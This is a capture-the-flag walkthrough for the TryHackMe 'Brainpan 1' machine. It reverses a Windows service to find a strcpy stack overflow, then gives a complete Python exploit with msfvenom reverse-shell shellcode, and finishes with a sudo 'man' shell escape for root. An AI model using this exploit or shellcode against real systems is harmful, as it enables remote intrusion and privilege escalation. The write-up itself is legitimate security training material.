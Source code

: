 ```yaml
---

title: "Brainpan 1"  
date: "2025-4-15"  
thumbnail: "/assets/img/thumbnail/Brainpan1.png"

---
```


# [Brainpan 1](https://tryhackme.com/room/brainpan)
---
**Challenges Difficulty: Hard**  
**Category: Revers**

## Walkthrough 

---
Stating with nmap to scan the machine we found a service called abyss on port 9999 a web server running on port 10000
![image.png](/assets/img/posts/Brainpan1/image%2012.png)
Opening it returns a page that has nothing interested 
![image.png](/assets/img/posts/Brainpan1/image%2013.png)
let's use dirb to discover directories 

![image.png](/assets/img/posts/Brainpan1/image%2014.png)
opening /bin we found an .exe file called Brainpan.exe lets try to download it

![image.png](/assets/img/posts/Brainpan1/image%2015.png)
let's reverse this file using Ghidra  

![image.png](/assets/img/posts/Brainpan1/image%2016.png)
so this is the one running on port 9999

![image.png](/assets/img/posts/Brainpan1/image%2017.png)
and this program takes one input from the user and returns **ACCESS DENIED** or **ACCESS GRANTED**
![image.png](/assets/img/posts/Brainpan1/image%2018.png)
Friendly advice don't waste yore time to get the correct password as its actually just a printed string
but as i have wasted my time :) so if you sent the string **shitstorm** that will return **ACCESS GRANTED**
![alt text](/assets/img/posts/Brainpan1/access.png)
actually this is the vulnerable part of the code as strcpy does not check bounds. so If input is longer than 520 bytes, it will overflow local_20c
![image.png](/assets/img/posts/Brainpan1/image%2021.png)
now we want to run this exe inside a debugger to cause a BO and get the address that would be in the eip to start our exploit i will use Immunity Debugger to do so
![image.png](/assets/img/posts/Brainpan1/image%2019.png)
created a pattern using msf-pattern_create to find the exact offset
![image.png](/assets/img/posts/Brainpan1/image%2020.png)

After a looooooooooong time i realized that ncat has a max buffer size of 511 🙂 

let’s use python

```python
import socket

# Target details
TARGET_IP = "127.0.0.1"
TARGET_PORT = 9999

# Payload (1000 'A' characters)
payload = "A" * 1000  

# Create a TCP socket
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
    # Connect to the target
    s.connect((TARGET_IP, TARGET_PORT))
    print("[+] Connected to the target")

    # Receive banner (if any)
    response = s.recv(1024)
    print("[+] Received:", response.decode(errors="ignore"))

    # Send the payload
    s.sendall(payload.encode())
    print("[+] Sent 1000 bytes")

    # Receive response (if any)
    response = s.recv(1024)
    print("[+] Server response:", response.decode(errors="ignore"))

except Exception as e:
    print("[!] Connection failed:", str(e))

finally:
    s.close()
    print("[+] Connection closed")

```

and finaly it’s a crash

![image.png](/assets/img/posts/Brainpan1/image%2022.png)

![image.png](/assets/img/posts/Brainpan1/image%2023.png)

![image.png](/assets/img/posts/Brainpan1/image%2024.png)
As we successful caused a BO we will use mona script inside Immunity Debugger to find a jmp esp instruction address  

![image.png](/assets/img/posts/Brainpan1/image%2025.png)
created a reverse shell using msfvenom to connect to my local ip throw port 4444 and modified the script

```python
import socket
import struct
# Target details
TARGET_IP = "127.0.0.1"
TARGET_PORT = 9999

# Payload (1000 'A' characters)
offset = b"A"*524 
eip= b'\xf3\x12\x17\x31'       #311712F3  
buf =  b""
buf += b"\xd9\xc1\xba\x43\xbc\xeb\x48\xd9\x74\x24\xf4\x5d"
buf += b"\x31\xc9\xb1\x52\x31\x55\x17\x03\x55\x17\x83\x86"
buf += b"\xb8\x09\xbd\xf4\x29\x4f\x3e\x04\xaa\x30\xb6\xe1"
buf += b"\x9b\x70\xac\x62\x8b\x40\xa6\x26\x20\x2a\xea\xd2"
buf += b"\xb3\x5e\x23\xd5\x74\xd4\x15\xd8\x85\x45\x65\x7b"
buf += b"\x06\x94\xba\x5b\x37\x57\xcf\x9a\x70\x8a\x22\xce"
buf += b"\x29\xc0\x91\xfe\x5e\x9c\x29\x75\x2c\x30\x2a\x6a"
buf += b"\xe5\x33\x1b\x3d\x7d\x6a\xbb\xbc\x52\x06\xf2\xa6"
buf += b"\xb7\x23\x4c\x5d\x03\xdf\x4f\xb7\x5d\x20\xe3\xf6"
buf += b"\x51\xd3\xfd\x3f\x55\x0c\x88\x49\xa5\xb1\x8b\x8e"
buf += b"\xd7\x6d\x19\x14\x7f\xe5\xb9\xf0\x81\x2a\x5f\x73"
buf += b"\x8d\x87\x2b\xdb\x92\x16\xff\x50\xae\x93\xfe\xb6"
buf += b"\x26\xe7\x24\x12\x62\xb3\x45\x03\xce\x12\x79\x53"
buf += b"\xb1\xcb\xdf\x18\x5c\x1f\x52\x43\x09\xec\x5f\x7b"
buf += b"\xc9\x7a\xd7\x08\xfb\x25\x43\x86\xb7\xae\x4d\x51"
buf += b"\xb7\x84\x2a\xcd\x46\x27\x4b\xc4\x8c\x73\x1b\x7e"
buf += b"\x24\xfc\xf0\x7e\xc9\x29\x56\x2e\x65\x82\x17\x9e"
buf += b"\xc5\x72\xf0\xf4\xc9\xad\xe0\xf7\x03\xc6\x8b\x02"
buf += b"\xc4\x96\x4b\x0c\x15\x01\x4e\x0c\x04\x8d\xc7\xea"
buf += b"\x4c\x3d\x8e\xa5\xf8\xa4\x8b\x3d\x98\x29\x06\x38"
buf += b"\x9a\xa2\xa5\xbd\x55\x43\xc3\xad\x02\xa3\x9e\x8f"
buf += b"\x85\xbc\x34\xa7\x4a\x2e\xd3\x37\x04\x53\x4c\x60"
buf += b"\x41\xa5\x85\xe4\x7f\x9c\x3f\x1a\x82\x78\x07\x9e"
buf += b"\x59\xb9\x86\x1f\x2f\x85\xac\x0f\xe9\x06\xe9\x7b"
buf += b"\xa5\x50\xa7\xd5\x03\x0b\x09\x8f\xdd\xe0\xc3\x47"
buf += b"\x9b\xca\xd3\x11\xa4\x06\xa2\xfd\x15\xff\xf3\x02"
buf += b"\x99\x97\xf3\x7b\xc7\x07\xfb\x56\x43\x27\x1e\x72"
buf += b"\xbe\xc0\x87\x17\x03\x8d\x37\xc2\x40\xa8\xbb\xe6"
buf += b"\x38\x4f\xa3\x83\x3d\x0b\x63\x78\x4c\x04\x06\x7e"
buf += b"\xe3\x25\x03"
nop=b'\x90'*50
eof=b"\xCC"
payload= offset+eip+nop+buf+nop+eof
# Create a TCP socket
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

# Connect to the target
s.connect((TARGET_IP, TARGET_PORT))
print("[+] Connected to the target")

# Receive banner (if any)
response = s.recv(1024)

# Send the payload
s.sendall(payload)
print("[+] Sent 1000 bytes")
```

![image.png](/assets/img/posts/Brainpan1/image%2026.png)
and this worked correctly and got a reverse shell now we want to send it to the actual server **remember to recreate the reverse shell with your ip**

![image.png](/assets/img/posts/Brainpan1/image%2027.png)
and we got a shell but it seems that we are inside Sandbox/Evasion Environment 

![image.png](/assets/img/posts/Brainpan1/image%2028.png)

![image.png](/assets/img/posts/Brainpan1/image%2029.png)
now we know that we can run /home/anansi/bin/anansi_util with sudo 
![image.png](/assets/img/posts/Brainpan1/image%2030.png)
this bin gives us 3 commands that we can run
1. network
2. proclist
3. manual 

from [gtfobins](https://gtfobins.github.io/gtfobins/man/#sudo) we know that we can get a shell from man using
```
!/bin/sh
```
![image.png](/assets/img/posts/Brainpan1/bin.png)



